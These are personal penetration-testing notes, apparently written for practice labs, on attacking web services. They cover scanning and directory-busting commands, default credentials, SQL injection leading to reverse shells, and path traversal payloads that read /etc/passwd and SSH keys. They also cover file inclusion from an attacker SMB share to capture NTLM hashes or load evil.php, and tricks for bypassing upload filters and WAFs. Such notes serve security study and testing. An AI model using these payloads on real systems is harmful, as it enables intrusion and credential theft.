 # HTTP and HTTPS

usually the likely attack vector (But can be a rabbit hole as well so dont fall in love with it!)

- Might sound silly but might want to try putting https instead of http if there is nothing going on.

- check the source code, robots.txt. can also run inspect to see whats going on in the background

- If GET doesn't work, why not POST! (see Nickel box on PG)

- if need be, fire up burp suite or Inspect the page

- try to find the CN (which you can use dig for)

- Do basic website scans using both whatweb and nikto

```bash
sudo nikto --host <target>:<port> 

# if basic auth

-id <user>:<password>
```

- Google the CMS, web services for potential easy wins exploit (use searchsploit or exploit-db or google as last resort)
	- Apache 2.4.49 - vuln to dir traversal and RCE

some websites dont work properly if you use the ip address. This may be because the hostname is being referenced in the webpage instead of the IP Address. Consider adding an entry to /etc/hosts if you find anything that looks like a hostname.


```bash
sudo nano /etc/hosts

# add an entry to the last line
<ip> <domain>

```
Manual Enumeration (go to website and click around):

	- Check for usernames, potential domains
	- Check for places where you can upload files
	- check for places where you can provide user input
		- try SQL ' or "
		- if it works, throw xp_cmdshell and try to get a reverse shell (if it is windows)
		- if not, enumerate the table
	- If login pages, try default credentials (try with uppercase as well!)
		- admin:admin
		- admin:password
		- root:root
		- root:toor
		- username:username ( if you find a username)
- Auto Enum:
	- if wordpress, run wpscan. #wpscan
	- if xmlrpc is enabled, use this https://github.com/relarizky/wpxploit
	- Always check out the wp-contents/uploads folder. Might have interesting things inside

```bash
# make sure you get the token from wpscan website!
wpscan --url http://<domain> --enumerate ap --plugins-detection aggressive -o websrv1/wpscan

# if https, add the --disable-tls-checks
# to enum users, add --enumerate u
# if you have a user, add --usernames <username> to brute force, -U <user list>, --passwords <wordlist like rockyou>
```

- Always dirbust and nikto
- The choice of wordlist can be important. What I find useful are:
	- Seclists's big.txt, medium directory (with this you should put in the extension flags as well or you may miss things!)
	- Seclists raft medium directory, files
```bash

nikto -h <ip> -C all

gobuster dir -u http://<target ip> -w <use the seclists dir list> -t 50 --no-error -x config, txt, pdf

# if https. -k to skip SSL errors

gobuster dir -u https://<target ip> -w <seclist> -t 50 -k --no-error

# if page is running things like php or aspx, add -x flag. you an often find things like admin.php

gobuster dir -u http://<target ip> -w <use the seclists dir list> -t 50 --no-error -x php, aspx

# also 

# if any interesting directories, further gobust those

# feroxbuster is pretty cool as well!

feroxbuster -u <target> -x txt,pdf,conf,php,aspx (edit the extensions as needed)

```
- if you find any .git folders, download them!

```bash

# download .git repo

wget -r http://<ip>/.git 

# note the above may not work if you get 403. Instead use git-dumper!

git-dumper http://<ip>/.git <output folder>

git diff

git log

# investigate interesting logs by using

git show 'commit id'
```
- try looking for these sensitive config files:
	- Apache - config.php (may need to path traverse to /etc/apache2), phpmyinfo (reveals interesting information)
		- run dirbuster and see if you can find phpinfo. Identify the root of the directory!
	- wp - wp-config.php
	- if you have path traverse or rce, try looking for rsa keys. You may need to check what kinds of keys are there as it is not always id_rsa; you can do this by checking out the /home/target user/.ssh/authorized_keys file. ecdsa keys have a diff name from id_rsa (id_ecdsa) 
- if you see things like parameters in the url, you should try path traversal
- Also use burp suite to intercept and view responses. The web app may not always be able to respond in the way you expect!

```bash

domain.com/abc/?news=a

# try

?news=../../../../../../etc/passwd

?news=C:/Windows/System32/drivers/etc/hosts

# check for File inclusion esp if it is a Windows MAchine!

start up a impacket smbserver on your attacker

?page=//<attacker ip>/<share>/anything.txt

capture the NTLMv2 hash

# if hash cannot crack

then host a malicious php file and then smbserver again and then

?page=//<attacker ip>/<share>/evil.php

```
once you find some way to upload stuff, see if you can upload php or aspx files from your prepared Tools folders

## Bypassing File Upload filters

- try simple manipulation of the file extension. For e.g if php, try pHp or pHP.

- try other versions of it like php2, phtml etc

- rename your .php to the relevant file format such .pdf. Intercept the upload request and rename the file back to .php and forward. Might work.

- try appending the legit extension and see if it tricks the system. like abc.pdf.php or abc.php.pdf

- try appending the magic bytes to the malicious script to trick the system. To do this use burpsuite to intercept the upload and then add the magic bytes in the body.

- change the file format header to application/pdf to see if it fools the system

- If there is a WAF in effect, you can intercept the request and add the following headers to the POST request:

From BurpSuite

https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c

these following headers can be added to your request to attempt to bypass WAF.

Be sure to add this before the Priority header or else it will hang!

```bash

X-Originating-IP: 127.0.0.1 
X-Forwarded-For: 127.0.0.1 
X-Remote-IP: 127.0.0.1 
X-Remote-Addr: 127.0.0.1

```